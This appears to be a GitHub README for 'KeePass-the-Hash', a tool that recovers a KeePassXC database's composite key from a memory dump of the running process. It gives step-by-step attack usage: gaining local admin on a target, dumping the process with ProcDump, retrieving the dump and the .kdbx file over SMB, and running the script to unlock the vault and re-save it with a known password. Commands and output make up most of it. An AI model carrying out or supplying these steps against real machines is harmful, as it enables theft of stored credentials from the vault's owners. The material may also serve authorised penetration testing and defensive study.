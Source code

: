 # KeePass-the-Hash
A script that greps composite key-like strings from a KeePassXC process dump, then uses a customized version of [pykeepass](https://pypi.org/project/pykeepass/) library to unlock the database.

## Installation

```
git clone https://github.com/d3lb3/KeePass-the-Hash
python3 -m pip install -r requirements.txt
```

## Usage

1. Gain access to the target machine running KeePass as local administrator.

2. Perform a process dump from the running KeePass process (I typically go with [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) + [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump))

   ```
   PS C:\Windows\Temp> Get-Process keepassxc                                                                                                                                                                                                       
   Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
   -------  ------    -----      -----     ------     --  -- -----------
       358      33    36508       1396       3.22    988   1   KeePassXC                                                   
       
   PS C:\Windows\Temp> .\procdump.exe -accepteula -ma 988 keepassxc.dmp
   
   ProcDump v11.0 - Sysinternals process dump utility
   Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
   Sysinternals - www.sysinternals.com                                                                                                                                                                                                             [05:14:08] Dump 1 initiated: C:\Windows\Temp\keepassxc.dmp                                                              [05:14:09] Dump 1 writing: Estimated dump file size is 203 MB.                                                          [05:14:11] Dump 1 complete: 203 MB written in 2.2 seconds                                                               [05:14:11] Dump count reached.                                                                                          
   ```

3. Retrieve the process dump as well as the .KDBX containing the encrypted database (e.g. through SMB)

4. Run the script as follows:

   ```
   python3 pass_the_key.py <dump_file> <database_file>
   [+] Searching for a composite key in the memory dump... 
   [+] 28 candidates found, passing them to the database
   [+] Found a valid composite key !
   [+] Saved database as 'Passwords_unlocked.kdbx' with password 12345
   ```

5. You should now hopefully get a new .KDBX with password set to `12345` 
